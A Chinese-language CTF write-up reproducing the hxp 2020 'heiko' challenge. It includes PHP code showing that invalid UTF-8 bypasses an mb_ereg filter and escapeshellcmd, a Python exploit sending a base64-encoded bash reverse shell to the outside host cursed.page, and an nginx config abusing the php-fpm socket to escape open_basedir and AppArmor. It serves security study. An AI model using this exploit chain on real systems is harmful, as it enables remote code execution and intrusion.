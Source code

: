 # hxp2020比赛复现

## 0x01 heiko

原题目中给了源码和docker文件

### 第一层 php的rce绕过

![image-20210503111405923](https://i.loli.net/2021/05/03/TleUQgMPOqwoBHz.png)

题目中给的源码，其实我们一眼就能看出来其中的关键部位。

重点：

1.`mb_*`function的编码和本地编码设置中是有出入的，可能导致编码规范而进行绕过

2.后面果然就来了正则匹配。

所以我们的出发点肯定就是怎么绕过这个正则表达式和`escapeshellcmd`

我们很幸运的是，可以发现，如果我们传入的字符串不符合UTF-8的编码规范，在这里进行正则匹配的时候，就可以完成绕过。

贴出官方的wp中的测试

```
<?php
    mb_regex_encoding('utf-8');
    mb_internal_encoding('utf-8');
    setlocale(LC_CTYPE, 'en_US.utf8');

    $valid_utf8 = "-Evil";
    // 0xCA is 0b11001010
    //   which means a continuation byte in the form of 10xxxxxx
    //   must immediately follow it => this is incorrect UTF-8
    $invalid_utf8 = "\xca" . $valid_utf8;

    // The original valid UTF-8 triggers the sanitizer,
    // so this prints "Uh-oh, busted.".
    if (mb_ereg("(^|\\s+)\W+", $valid_utf8)) {
        echo "Uh-oh, busted.", PHP_EOL;
    } else {
        echo "Go ahead.", PHP_EOL;
    }

    // However, regular expression functions silently fail
    // on invalid UTF-8, which means this prints "Go ahead."
    if (mb_ereg("(^|\\s+)\W+", $invalid_utf8)) {
        echo "Uh-oh, busted.", PHP_EOL;
    } else {
        echo "Go ahead.", PHP_EOL;
    }

    // After that, escapeshellcmd() simply drops the invalid character,
    // which is exactly what we want (i.e., this prints "bool(true)").
    var_dump($valid_utf8 === escapeshellcmd($invalid_utf8));
?>
```

这里的输出请大家自己进行测试，影响深刻。这样我们就可以进行绕过了，使用普通的反弹shell就可以了。

[shell反弹大全]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

贴出脚本

```python
import base64
import requests
import sys


REV_SHELL = 'bash -i >& /dev/tcp/`getent hosts cursed.page | cut -d" " -f1`/31337 0>&1'
SAFE_REV_SHELL = f'echo {base64.b64encode(REV_SHELL.encode()).decode()} | base64 -d | bash'.replace(' ', '${IFS}')
CGI_READY_REV_SHELL = b'\xca-H' + SAFE_REV_SHELL.encode() + b'; id'
VICTIM_PORT = 8820


if __name__ == '__main__':
    victim_host = sys.argv[1] if len(sys.argv) > 1 else 'localhost'
    victim_addr = f'http://{victim_host}:{VICTIM_PORT}/'
    requests.get(victim_addr, params={
        'page': CGI_READY_REV_SHELL,
    })

```

中的远程的ip需要自己设置一下。

### 第二层 绕过open_basedir和 AppArmor policy

![image-20210503112118900](https://i.loli.net/2021/05/03/LEVyMv7tqF9O3Tu.png)

这里面的apparmor是一个内核应用规定了大多数可执行文件的各种权限。参考：https://www.jianshu.com/p/4843f506b055

所以我们使用的/`usr/bin/man`，他可以查看除了根目录以外的其他任何目录

![image-20210503112443827](https://i.loli.net/2021/05/03/zUIgkJEbqOlCXDs.png)

![image-20210503112506906](https://i.loli.net/2021/05/03/BPSWviXjmg8lCIO.png)

哟西，完蛋没得玩了。

这里我们就得使用一下，`php-fpm`来和php进行通信了，因为php-fpm没有被这个限制，尽管我们现在的权限很低，但是我们依然可以通过`/run/php/php7.3-fpm.sock`来通信。

这里最简单的方法就是用nginx来新起一个服务，然后我们在tmp目录下进行操作，写php文件就可以了。

```
www-data@b5c29be1eabd:/tmp/evil$ cat nginx.conf
pid /tmp/evil/evil.pid;
events {}

error_log /tmp/evil/err.evil;

http {
    access_log /tmp/evil/acc.evil;
    server {
            listen 127.0.0.1:31337 default_server;
            root /tmp/evil;
            server_name _;
            location ~ \.php$ {
                    include /etc/nginx/fastcgi.conf;
                    fastcgi_param PHP_VALUE open_basedir=/;
                    fastcgi_pass unix:/run/php/php7.3-fpm.sock;
            }
    }
}
```

```
/usr/sbin/nginx -c /tmp/evil/nginx.conf
nginx: [alert] could not open error log file: open() "/var/log/nginx/error.log" failed (6: No such device or address)
www-data@b5c29be1eabd:/tmp/evil$ cat evil.pid
172
```

然后剩下的操作就可以通过在tmp目录下，下php文件实现随便的命令执行了，而且没有限制。

原本的靶机中，没有`vi``vim`可以通过`>>`来写文件。

#### 启示 

nginx apache 的源文件会使用了吗？

linux系统下对权限的限制学会了吗？

nginx 和apache都不会用 你做什么web？脚本小子吗？

php手册 nginx手册看过了吗



## 0x02 resonator

查看另外一篇文章。